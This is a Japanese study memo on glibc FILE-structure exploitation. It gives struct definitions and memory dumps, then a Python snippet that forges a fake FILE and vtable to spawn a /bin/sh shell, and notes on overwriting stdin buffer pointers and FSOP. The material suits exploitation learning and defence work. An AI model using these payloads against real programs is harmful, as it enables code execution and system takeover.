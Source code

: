 ファイル・ポインタや標準入出力に関連するFILE構造体を利用したexploitテクニックのメモ。

# FILE構造体の基本情報

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの構造体の定義とメモリーレイアウトを理解しておく。

* _IO_FILE
```
struct _IO_FILE {
  int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

```

* _IO_FILE_plus
```
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

* _IO_jump_t 関数ポインタのテーブルになっている
```
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの繋がりはこの図が分かり易い。
![glibc-file-vtable](https://user-images.githubusercontent.com/9530961/39658505-3ae004b0-5050-11e8-9826-0ba092a002fd.png)

各々の_IO_FILEは_IO_list_allから連なるlinked listになっている。
![2018-05-05 11 14 51](https://user-images.githubusercontent.com/9530961/39658801-a1d1666e-5055-11e8-9b73-9ad947e3825d.png)

メモリーレイアウトは以下の通り。

* stdoutのFILE構造体メモリーレイアウト
```
0x7ffff7dd4400 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd4483 flags / _IO_read_ptr
0x7ffff7dd4410 <_IO_2_1_stdout_+16>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_read_end / _IO_read_base
0x7ffff7dd4420 <_IO_2_1_stdout_+32>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_base / _IO_write_ptr
0x7ffff7dd4430 <_IO_2_1_stdout_+48>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_end / _IO_buf_base
0x7ffff7dd4440 <_IO_2_1_stdout_+64>:	0x00007ffff7dd4484	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4450 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000 _IO_backup_base / _IO_save_end
0x7ffff7dd4460 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007ffff7dd4640 *_markers / *_chain 次の_IO_FILE structへのポインタ
0x7ffff7dd4470 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff _fileno / ?
0x7ffff7dd4480 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007ffff7dd59e0 ? / *_lock
0x7ffff7dd4490 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000 
0x7ffff7dd44a0 <_IO_2_1_stdout_+160>:	0x00007ffff7dd44e0	0x0000000000000000
0x7ffff7dd44b0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd44c0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd44d0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007ffff7dd26a0 _IO_jump_tへのポインタ
```

* _IO_jump_tのメモリーレイアウト
```
0x7ffff7dd26a0 <_IO_file_jumps>:	0x0000000000000000	0x0000000000000000 __dummy / __dummy2
0x7ffff7dd26b0 <_IO_file_jumps+16>:	0x00007ffff7a8ac80	0x00007ffff7a8b6d0 
0x7ffff7dd26c0 <_IO_file_jumps+32>:	0x00007ffff7a8b480	0x00007ffff7a8c530
0x7ffff7dd26d0 <_IO_file_jumps+48>:	0x00007ffff7a8d6e0	0x00007ffff7a8a500
0x7ffff7dd26e0 <_IO_file_jumps+64>:	0x00007ffff7a8a210	0x00007ffff7a89870
0x7ffff7dd26f0 <_IO_file_jumps+80>:	0x00007ffff7a8caa0	0x00007ffff7a897e0
0x7ffff7dd2700 <_IO_file_jumps+96>:	0x00007ffff7a89710	0x00007ffff7a7e7b0
0x7ffff7dd2710 <_IO_file_jumps+112>:	0x00007ffff7a8a4e0	0x00007ffff7a89ed0
0x7ffff7dd2720 <_IO_file_jumps+128>:	0x00007ffff7a89cd0	0x00007ffff7a897d0
0x7ffff7dd2730 <_IO_file_jumps+144>:	0x00007ffff7a89ec0	0x00007ffff7a8d840
0x7ffff7dd2740 <_IO_file_jumps+160>:	0x00007ffff7a8d850	0x0000000000000000
```



# Exploit
* ファイル・ポインタの上書き

ファイル・ポインタを上書きできる場合、FILE構造体を偽装し、_IO_jump_tに任意の関数を仕込んでおくにより、fclose(fp)などが呼ばれた時にその関数を実行できる。下の例では、system("/bin/sh")が実行される。なおFILE構造体のflagsに第一引数（この場合は"/bin/sh¥0"）をセットしておくことが可能。

```
    # fake _IO_FILE
    buf = "/bin/sh\0"
    buf += p(0)*16
    buf += p(addr) # *_lock: 有効なアドレスを入れておく、何でもよいわけじゃないらしい
    buf += p(0)*9
    buf += p(jump_table) # _IO_file_jumpsへのアドレス
    # fake _IO_file_jumps
    buf += p(0)*2
    buf += p(system)*19
```

* _IO_buf_base/_IO_buf_endの上書き

stdinの_IO_buf_base/_IO_buf_endを上書きできる場合、scanf/fgets/gets等の関数の書き込み先をコントロールできる。
下の例だと0x62000に任意のデータを書き込める。書き込み先をGOTやfree_hook/malloc_hookにしておくことにより、one gadget rceなどを仕込むことができる。

```
0x7ffff7dd4640 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007ffff7dd46c3
0x7ffff7dd4650 <_IO_2_1_stdin_+16>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4660 <_IO_2_1_stdin_+32>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4670 <_IO_2_1_stdin_+48>:	0x00007ffff7dd46c3	0x0000000000602000 _IO_write_end / _IO_buf_base
0x7ffff7dd4680 <_IO_2_1_stdin_+64>:	0x0000000000602100	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4690 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46a0 <_IO_2_1_stdin_+96>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46b0 <_IO_2_1_stdin_+112>:	0x0000000000000000	0xffffffffffffffff
0x7ffff7dd46c0 <_IO_2_1_stdin_+128>:	0x0000000000000000	0x00007ffff7dd59f0
0x7ffff7dd46d0 <_IO_2_1_stdin_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd46e0 <_IO_2_1_stdin_+160>:	0x00007ffff7dd4720	0x0000000000000000
0x7ffff7dd46f0 <_IO_2_1_stdin_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4700 <_IO_2_1_stdin_+192>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4710 <_IO_2_1_stdin_+208>:	0x0000000000000000	0x00007ffff7dd26a0
```

* FSOP(File Stream Oriented Programming)

angelboy氏の資料に記載のテクニック。
1. 事前に_IO_list_allを上書きし、偽のFILE構造体のlinked listに繋いでおく。
2. abort()が起きると、_IO_flush_all_lockpにより、_IO_list_allに連なる全てのFILE構造体のjump tableにある__overflowにセットされている関数が実行される。

![2018-05-05 11 35 14](https://user-images.githubusercontent.com/9530961/39658935-7d1046bc-5058-11e8-80fa-a823164fb518.png)

![2018-05-05 11 33 19](https://user-images.githubusercontent.com/9530961/39658922-365108ce-5058-11e8-9e33-5603892bf232.png)

# 参考
* [Play with FILE Structure - Yet Another Binary Exploit Technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)
* [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
